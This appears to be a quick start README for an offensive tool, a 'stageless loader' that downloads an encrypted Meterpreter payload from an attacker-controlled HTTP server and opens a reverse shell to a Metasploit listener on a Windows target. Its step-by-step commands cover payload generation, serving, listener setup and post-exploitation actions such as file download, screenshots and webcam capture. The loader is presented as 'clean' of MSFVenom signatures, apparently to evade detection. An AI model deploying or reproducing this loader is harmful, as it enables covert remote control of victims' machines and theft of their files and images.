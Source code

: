 # Quick Start Guide - Stageless Loader

**Get up and running in 4 simple steps!**

---

## Super Fast Setup

```bash
# 1. Run automated setup
./setup.sh

# 2. Start HTTP server (Terminal 1)
./start_server.sh

# 3. Start Metasploit listener (Terminal 2)
./start_listener.sh

# 4. Run stageless_loader.exe on Windows target
```

**That's it!** You'll get a Meterpreter shell.

---

## Step-by-Step (First Time Users)

### 1. Setup (One Time)

```bash
cd stageless-loader
./setup.sh
```

**Prompts:**
```
Enter your Kali IP (LHOST) [10.10.10.100]: <YOUR_IP>
Enter listener port (LPORT) [4444]: <YOUR_PORT>
Enter HTTP server port [8080]: <HTTP_PORT>
Continue with this configuration? (y/n): y
```

**Output:**
```
Payload generated
Payload encrypted
Loader compiled
Scripts created
```

---

### 2. Start Server

**Terminal 1:**
```bash
./start_server.sh
```

**Output:**
```
[*] Starting HTTP server on port 8080...
[*] Payload URL: http://10.10.10.100:8080/payload.enc
[+] Server is running. Press CTRL+C to stop.
```

**Leave this running!**

---

### 3. Start Listener

**Terminal 2:**
```bash
./start_listener.sh
```

**Output:**
```
[*] Starting Metasploit handler...
[*] Listening on: 10.10.10.100:4444
[*] Started reverse TCP handler on 10.10.10.100:4444
```

**Leave this running!**

---

### 4. Run on Windows

1. Copy `stageless_loader.exe` to Windows machine
2. Double-click or run via command line
3. Wait 2-5 seconds

**In Metasploit console, you'll see:**
```
[*] Meterpreter session 1 opened (10.10.10.100:4444 -> 192.168.1.X:XXXXX)
```

---

### 5. Interact with Shell

**In Metasploit:**
```bash
# List sessions
sessions -l

# Connect to session
sessions -i 1

# You're now in Meterpreter!
meterpreter > sysinfo
meterpreter > getuid
meterpreter > pwd
meterpreter > shell     # Get cmd.exe shell
```

---

## For Different Target (New IP/Port)

```bash
./setup.sh
# Enter new IP/Port
# Everything rebuilds automatically
```

---

## Quick Troubleshooting

**No connection?**
```bash
# Check server is running
curl http://10.10.10.100:8080/payload.enc

# Check listener
# In Metasploit: jobs -l

# Check sessions
# In Metasploit: sessions -l
```

**Session dies?**
```bash
# Run loader again - it works!
# Sessions may take 5-10 seconds
```

---

## What You Get

| File | Size | Purpose |
|------|------|---------|
| `stageless_loader.exe` | 17KB | Clean loader (NO MSFVenom) |
| `payload.enc` | 200KB | Encrypted Meterpreter |
| `start_server.sh` | - | HTTP server |
| `start_listener.sh` | - | Metasploit handler |

---

## Success Indicators

**HTTP Server:**
```
Serving HTTP on 0.0.0.0 port 8080
192.168.1.X - - [DATE] "GET /payload.enc HTTP/1.1" 200 -
```
Windows downloaded the payload!

**Metasploit:**
```
[*] Meterpreter session 1 opened
```
You got a shell!

**Meterpreter Prompt:**
```
meterpreter >
```
Interactive shell ready!

---

## Common Commands

**In Meterpreter:**
```bash
sysinfo          # System information
getuid           # Current user
pwd              # Current directory
ls               # List files
cd C:\\Users     # Change directory
download file    # Download file
upload file      # Upload file
screenshot       # Take screenshot
webcam_snap      # Take photo
shell            # Get cmd.exe
```

**Session Management:**
```bash
sessions -l      # List sessions
sessions -i 1    # Interact with session 1
sessions -k 1    # Kill session 1
background       # Background session (CTRL+Z)
```

---

## If Something Goes Wrong

**Reset everything:**
```bash
# Kill all
jobs -K          # In Metasploit
CTRL+C           # In HTTP server

# Restart
./setup.sh       # Regenerate everything
./start_server.sh
./start_listener.sh
```

---

**For detailed docs:** See `README.md`

